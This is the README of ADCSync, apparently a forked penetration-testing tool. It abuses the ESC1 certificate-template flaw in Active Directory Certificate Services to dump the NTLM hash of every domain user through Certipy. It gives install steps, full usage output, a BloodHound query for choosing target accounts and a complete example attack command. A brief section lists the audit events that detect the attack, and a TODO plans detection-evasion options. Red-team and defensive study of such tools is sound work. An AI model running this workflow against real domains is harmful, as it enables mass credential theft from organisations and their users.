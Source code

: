 # ADCSsync

This is a tool I whipped up together quickly to DCSync utilizing ESC1. It is quite slow but otherwise an effective means of performing a makeshift DCSync attack without utilizing [DRSUAPI](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) or [Volume Shadow Copy](https://book.hacktricks.xyz/windows-hardening/stealing-credentials#volume-shadow-copy). 

This is the first version of the tool and essentially just automates the process of running Certipy against every user in a domain. It still needs a lot of work and I plan on adding more features in the future for authentication methods and automating the process of finding a vulnerable template.

## Fork Update

This fork supports proxychains, both bloodhound formats such as raw users.json from SharpHound.exe or manually exported JSON from the old BloodHound.
It will also skip accounts that it already got hashes from and resume where you left off if you get disconnected for whatever reason during runtime.
Various other nice to haves.
There are multiple scripts, adcsync.py is single-threaded. The ADCSync_multi_.py files are all multi-threaded with 4 workers by default using Python's ThreadPoolExecutor.
This also supports the -sid flag in Certipy which is now required for ESC1.
You can choose which users you want to target. Export whatever custom BloodHound neo4j query results to a JSON file that contains the desired accounts.
For example:

```sql
MATCH p = (d:Domain {name: "AD.CORP.LOCAL"})-[r:Contains*1..]->(u:User) WHERE NOT u.name starts with 'KRBTGT' RETURN u
```

## Introduction

ADCSync uses the ESC1 exploit to dump NTLM hashes from user accounts in an Active Directory environment. The tool will first grab every user and domain in the Bloodhound dump file passed in. Then it will use Certipy to make a request for each user and store their PFX file in the certificate directory. Finally, it will use Certipy to authenticate with the certificate and retrieve the NT hash for each user. This process is quite slow and can take a while to complete but offers an alternative way to dump NTLM hashes. 


## Installation

```shell
git clone https://github.com/mr-pmillz/ADCSync.git
cd ADCSync
virtualenv -p python3 venv
source venv/bin/activate
python3 -m pip install -r requirements.txt

# if environment is using ldap channel binding, need to run the following also until certipy v5 is released:
python3 -m pip install git+https://github.com/ly4k/ldap3 # support for ldap channel binding in certipy v4.8.2
```

## Usage

To use this tool we need the following things:

1. Valid Domain Credentials
2. A user list from a bloodhound dump that will be passed in.
3. A template vulnerable to ESC1 (Found with Certipy find)


```shell
# python3 ADCSync_multi_log_full_with_retry.py --help

usage: ADCSync_multi_log_full_with_retry.py [-h] -f FILE -o OUTPUT -ca-name CA_NAME
                                            -dc-ip DC_IP -dc-fqdn DC_FQDN -u USER
                                            -p PASSWORD -template TEMPLATE -target TARGET
                                            [-t THREADS] [-debug] [-proxychains]

Retrieve NTLM hashes via ADCS ESC1 technique.

options:
  -h, --help            show this help message and exit
  -f, --file FILE       Input User List JSON file from Bloodhound
  -o, --output OUTPUT   NTLM Hash Output file
  -ca-name CA_NAME      Certificate Authority
  -dc-ip DC_IP          IP Address of Domain Controller
  -dc-fqdn DC_FQDN      FQDN of Domain Controller
  -u, --user USER       Username
  -p, --password PASSWORD
                        Password
  -template TEMPLATE    Template Name vulnerable to ESC1
  -target TARGET        CA FQDN
  -t, --threads THREADS
                        Number of threads to use. (default=4)
  -debug                Show verbose debugging information
  -proxychains          Use proxychains4
```

Example command:

```shell
python3 ADCSync_multi_log_full_with_retry.py -f all-ad.corp.local-users.json \
-o dcsync.txt \
-ca-name FOO-CA \
-dc-ip 10.10.10.10 \
-dc-fqdn cool-dc1.ad.corp.local \
-u 'coolbeans@ad.corp.local' \
-p 'PASSWORDHERE' \
-template VULN-ESC1-TEMPLATE-NAME \
-target CA-FQDN.ad.corp.local \
-proxychains \
-debug
```

## Detection

By default, ADCS does not monitor/audit the following event logs.

* Event ID 4898: This event is generated every time a certificate template is loaded during enrollment. It records - in detail - the properties and security descriptor of the certificate template.
* Event ID 4887: This event is generated when a certificate is successfully issued to a user.
* Event ID 4888: This event is generated when a certificate request is denied.

In order to enable auditing for these events, you need to check all the following boxes in the ADCS Certificate Authority -> Properties -> Auditing configuration, and apply the settings.

![ADCS Certificate Authority Enable Monitoring](imgs/adcs-settings.png)

## TODO

* Support alternative authentication methods such as NTLM hashes and ccache files
* Automatically run "certipy find" to find and grab templates vulnerable to ESC1
* Add jitter and sleep options to avoid detection
* Add type validation for all variables


## Acknowledgements

* [puzzlepeaches](https://github.com/puzzlepeaches): Telling me to hurry up and write this
* [ly4k](https://github.com/ly4k/Certipy): For Certipy
* [WazeHell](https://github.com/WazeHell/vulnerable-AD): For the script to set up the vulnerable AD environment used for testing
